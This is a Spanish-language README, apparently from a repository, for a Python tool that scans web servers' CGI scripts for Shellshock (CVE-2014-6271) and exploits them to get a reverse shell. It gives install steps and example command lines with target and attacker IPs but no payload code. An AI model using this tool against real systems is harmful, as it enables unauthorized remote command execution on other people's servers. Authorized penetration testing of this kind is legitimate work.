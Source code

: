 # Shellshock Scanner y Explotador

Este script de Python es una herramienta para detectar y explotar la vulnerabilidad Shellshock (CVE-2014-6271) en servidores web que utilizan scripts CGI.

## Descripción

Shellshock es una vulnerabilidad crítica que afecta a la shell Bash y permite a un atacante ejecutar comandos arbitrarios a través de variables de entorno. Esta herramienta automatiza:

- La detección de scripts CGI accesibles en el servidor objetivo
- La verificación de vulnerabilidad Shellshock en cada script encontrado
- La explotación para obtener una shell reversa

## Requisitos

La herramienta requiere las siguientes dependencias:
- Python 3
- gobuster
- curl
- netcat (nc)

## Instalación

```bash
# Clonar el repositorio
git clone https://github.com/usuario/shellshock-scanner.git
cd shellshock-scanner

# Hacer el script ejecutable
chmod +x shellshock_scanner.py

# Verificar dependencias (el script comprobará automáticamente)
sudo apt install gobuster curl netcat-traditional
```

El script verificará automáticamente las dependencias necesarias. Si alguna dependencia falta, generará un archivo `requirements.txt` que puedes utilizar para instalarlas con pip u otro gestor de paquetes:

```bash
# Si el script informa de dependencias faltantes
pip install -r requirements.txt

# O con apt si es necesario
sudo apt install $(cat requirements.txt)
```

## Uso

### Modo interactivo (recomendado)

Simplemente ejecuta el script sin argumentos y seguirás los pasos interactivos:

```bash
./shellshock_scanner.py
```

El script te solicitará:
- IP del servidor objetivo
- Tu IP para la shell reversa
- Puerto para la shell reversa (por defecto: 7777)
- Ruta a un diccionario para la fase de enumeración (opcional)

### Modo con argumentos

También puedes ejecutar el script con argumentos específicos:

```bash
./shellshock_scanner.py --target 192.168.1.10 --attacker-ip 192.168.1.5 --attacker-port 4444 --wordlist /usr/share/wordlists/dirb/common.txt
```

Para probar un script CGI específico:

```bash
./shellshock_scanner.py --target 192.168.1.10 --attacker-ip 192.168.1.5 --cgi-script test.cgi
```

## Proceso de funcionamiento

1. **Verificación de dependencias**: El script comprueba que todas las herramientas necesarias estén instaladas.
2. **Enumeración**: Utiliza gobuster para encontrar scripts CGI en el directorio `/cgi-bin/` del servidor.
3. **Detección**: Verifica la vulnerabilidad Shellshock en cada script encontrado.
4. **Explotación**: Para los scripts vulnerables, intenta obtener una shell reversa.

## Características adicionales

- Creación automática de un wordlist básico si no se encuentra ninguno.
- Generación automática de un archivo requirements.txt si faltan dependencias.
- Métodos alternativos de detección si gobuster falla.
- Múltiples payloads para aumentar las probabilidades de éxito.
- Comprobación manual de scripts CGI específicos.

## Consideraciones legales

Esta herramienta está diseñada únicamente para fines educativos y de pruebas de penetración autorizadas. El uso de esta herramienta contra sistemas sin permiso explícito es ilegal y puede resultar en consecuencias legales.

## Contribuciones

Las contribuciones son bienvenidas. Por favor, envía pull requests para mejoras o correcciones.

## Licencia

Este proyecto está licenciado bajo la licencia MIT - ver el archivo LICENSE para más detalles.
